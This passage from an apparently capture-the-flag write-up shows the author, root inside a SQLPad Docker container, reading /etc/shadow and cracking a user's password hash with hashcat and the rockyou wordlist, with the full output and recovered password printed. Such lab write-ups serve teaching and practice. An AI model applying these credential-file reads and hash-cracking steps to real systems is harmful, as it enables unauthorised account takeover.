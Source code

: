 We got root but it's clearly a docker container of sqlpad.

## **Privilege Escalation**

### Escaping docker

Since we are root we can read the `/etc/shadow` file.

```text
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

We got the hash of user `machael`, let's crack it.

```terminal
hashcat hashes.txt rockyou.txt -m 1800
hashcat (v6.2.6) starting




Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa....L2IJD/
Time.Started.....: Mon Dec 16 10:43:14 2024 (29 secs)
Time.Estimated...: Mon Dec 16 10:43:43 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2285 H/s (10.91ms) @ Accel:128 Loops:4 Thr:256 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 65536/14344384 (0.46%)
Rejected.........: 0/65536 (0.00%)
Restore.Point....: 32768/14344384 (0.23%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4996-5000
Candidate.Engine.: Device Generator
Candidates.#1....: dumbo -> ryanscott

Started: Mon Dec 16 10:43:06 2024
Stopped: Mon Dec 16 10:43:45 2024
```
